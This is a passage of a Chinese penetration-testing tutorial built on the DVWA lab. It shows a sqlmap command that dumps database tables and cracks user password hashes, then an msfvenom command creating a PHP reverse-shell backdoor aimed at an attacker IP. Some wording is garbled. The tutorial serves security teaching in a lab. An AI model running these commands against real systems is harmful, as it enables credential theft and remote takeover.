 图 10：`dvwa`数据库中用户表的列

现在我们已经确定了一个有趣的表，让我们继续并转储该表，看看是否能够使用字典攻击破解哈希。

2.  通过使用以下命令，我们将转储所有表的表项：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --dump
```

在这个命令中，我们使用`--dump`选项查看`dvwa`数据库中所有表的所有条目。当命令运行时，`sqlmap`将询问是否应该使用字典攻击来尝试破解密码。通过选择`yes`选项，`sqlmap`将提示输入字典文件。使用内置的字典文件就足够了。注意产出；您将看到，我们有被转储的用户表，以及所有详细信息，包括每个用户的密码，以哈希形式和明文形式：

![](img/23b1e9dd-7073-456b-9b67-3a5873a460ad.png)

图 11：使用 Sqlmap 转储的用户详细信息

在本节中，我们已经了解了 Sqlmap 的有效性。使用此工具，您可以在渗透测试期间遇到时间限制时自动执行一些攻击。我们专门研究了如何执行信息收集、枚举表和提取用户凭据。Sqlmap 具有更多的特性，因此它是渗透测试工具包中的必备工具。

# 使用 PHP 创建后门

让我们来看看使用恶意的 To.t0 文件来创建一个后门到 Web 应用的底层操作系统。在这里，我们将使用 DVWA，因为它允许我们上传文件。

确保 DVWA 的安全级别设置为低。默认登录用户名为`admin`，密码为`password`。

我们将使用 MSFvenom 创建一个 PHP 文件，该文件将为我们提供一个反向 shell。用于侦听连接的处理程序将在 Metasploit 中设置。这些步骤概述如下：

1.  在 Kali Linux 内的终端窗口中，输入以下命令以创建恶意 PHP 后门：

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attacker IP Address> LPORT=<Port to connect to> -f raw > msfv-shell.php
```
